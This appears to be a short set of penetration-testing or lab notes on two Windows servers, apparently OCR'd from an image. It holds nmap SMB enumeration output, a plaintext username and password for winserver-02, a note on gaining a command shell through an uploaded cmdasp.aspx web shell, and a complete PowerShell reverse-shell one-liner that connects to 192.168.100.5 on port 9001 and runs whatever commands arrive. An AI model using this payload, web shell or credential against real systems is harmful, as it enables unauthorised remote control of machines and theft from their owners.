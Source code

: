 Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WINSERVER-01
|   NetBIOS computer name: WINSERVER-01\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-13T22:21:32+00:00
|_nbstat: NetBIOS name: WINSERVER-01, NetBIOS user: \<unknown\>, NetBIOS MAC: 06:da:c3:e0:c5:80 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-07-13T22:21:31
|_  start_date: 2023-07-13T22:11:04
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required


192.168.100.51
=

name: winserver-02
users
Administrator            Guest                    steven

## credentials
steven:bonita

## access 
can get access with cmd shell through web cmdasp.aspx

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.100.5',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
